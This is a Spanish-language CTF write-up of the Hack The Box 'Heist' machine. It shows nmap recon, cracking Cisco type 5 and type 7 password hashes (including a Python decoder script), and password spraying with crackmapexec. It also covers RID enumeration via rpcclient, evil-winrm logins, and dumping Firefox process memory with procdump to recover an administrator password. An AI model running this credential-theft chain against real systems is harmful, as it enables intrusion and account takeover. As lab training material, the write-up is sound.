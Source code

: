 ```yaml
---
layout: single
title: HTB-Heist
excerpt: "WriteUp de la máquina HTB Heist -- Type: Easy"
date: 2022-03-29
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/writeups/heist/heist.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```

<centre><img src="/assets/images/writeups/heist/heist.png"></centre>


[Maquina](https://app.hackthebox.com/machines/Heist) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.149
```

```bash
Nmap scan report for 10.10.10.149
Host is up (0.042s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Support Login Page
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-06T13:56:12
|_  start_date: N/A
|_clock-skew: 5m43s
```

En la web podemos ver un panel de login y podemos entrar como **guest**
<centre><img src="/assets/images/writeups/heist/panel1.png"></centre>

Una vez dentro, veriamos que se trata de una especie de panel de ticketing donde hay diferentes usuarios que guardamos los nombres y tiene un fichero adjuntado a un mensaje donde se encuentran contraseñas que podemos crackear.
<centre><img src="/assets/images/writeups/heist/panel2.png"></centre>
```txt
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
```


## Explotación

Con **john** podemos crackear el md5,
```bash
john  --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long pass.txt

└─$ john --show pass.txt
?:stealth1agent
```

Y con el siguiente script en python que se puede encontrar por internet se pueden descifrar las otras dos passwords
```python
#!/usr/bin/env python3

import sys
from binascii import unhexlify

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} [level 7 hash]")
    exit()

static_key = "tfd;kfoA,.iyewrkldJKD"
enc = sys.argv[1]
start = int(enc[:2], 16) - 1
enc = unhexlify(enc[2:])
key = static_key[start:] + static_key[:start]

plain = ''.join([chr(x ^ ord(key[i % len(key)]))  for i, x in enumerate(enc)])
print(plain)
```

```bash
┌──(maxter㉿kali)-[~/work]
└─$ python python.py 0242114B0E143F015F5D1E161713      
$uperP@ssword
                                                                                                                                                                                                                                            
┌──(maxter㉿kali)-[~/work]
└─$ python python.py 02375012182C1A1D751618034F36415408
Q4)sJu\Y8qz*A3?d
```

Usamos **crackmapexec** para comprobar si existe algun usuario con alguna contraseña para logearse en la máquina.
```bash
crackmapexec smb 10.10.10.149 -u usr.txt -p pass.txt
```

```txt
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent
```

```bash
rpcclient -U 'hazard%stealth1agent' 10.10.10.149
```      

rpcclient $> lookupnames hazard
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)


```bash
for i in {1000..1050}; do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown; done
```


```txt
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (1)
```

```bash
crackmapexec smb 10.10.10.149 -u chase -p pass.txt
```

```txt
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d 
```

Nos conectamos con **evil-winrm**
```bash
└─$ evil-winrm -i 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d'    
```

Al movernos por la máquina no encontramos nada y podriamos mirar los procesos con el comando **PS** y nos encontramos algunos de **firefox** y podríamos intentar sacar algunas **credenciales** que tenga en el navegador.
```txt COMANDO PS
   1478      57    23496      79184              4316   1 explorer
    347      19    10240      38684       0.05   1736   1 firefox
    405      33    26756      84500       0.80   2584   1 firefox
   1048      63   112260     188264       3.83   3672   1 firefox
    385      28    21712      58504       0.97   6288   1 firefox
    355      25    16432      39132       0.09   6652   1 firefox
     49       6     1504       3852               756   0 fontdrvhost
     49       6     1792       4648               764   1 fontdrvhost
```

Nos dumpeamos las credenciales con el [Procdump](https://download.sysinternals.com/files/Procdump.zip) y lo subimos con el comando upload de **evil-winrm**.
```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64.exe -accepteula -ma 1736

ProcDump v10.11 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[13:34:14] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_220419_133414.dmp
[13:34:14] Dump 1 writing: Estimated dump file size is 288 MB.
[13:34:16] Dump 1 complete: 288 MB written in 1.5 seconds
[13:34:16] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Documents> 
```

Con el programa [Strings](https://download.sysinternals.com/files/Strings.zip) podemos aclarar el fichero dmp a un txt algo mas visible para nosotros.
```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> cmd /c "strings.exe -accepteula 
firefox.exe_220419_133414.dmp > fichero.txt"
````



Buscamos la posible contraseña en el **fichero.txt**
```txt
*Evil-WinRM* PS C:\Users\Chase\Documents> findstr "login_password" fichero.txt
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
*Evil-WinRM* PS C:\Users\Chase\Documents> 
```

Comprobamos que usuario somos al entrar con **evil-winrm**
```bash
└─$ evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'    
```
```txt
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::d8
   IPv6 Address. . . . . . . . . . . : dead:beef::dcaf:64d7:3f43:1c72
   Link-local IPv6 Address . . . . . : fe80::dcaf:64d7:3f43:1c72%15
   IPv4 Address. . . . . . . . . . . : 10.10.10.149
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:551%15
                                       10.10.10.2
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```


Flag **Chase**:
```powershell
*Evil-WinRM* PS C:\Users\Chase\Desktop> dir


    Directory: C:\Users\Chase\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   9:08 AM            121 todo.txt
-ar---        4/19/2022   1:21 PM             34 user.txt


*Evil-WinRM* PS C:\Users\Chase\Desktop>
```

Flag **Administrator**
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/19/2022   1:21 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```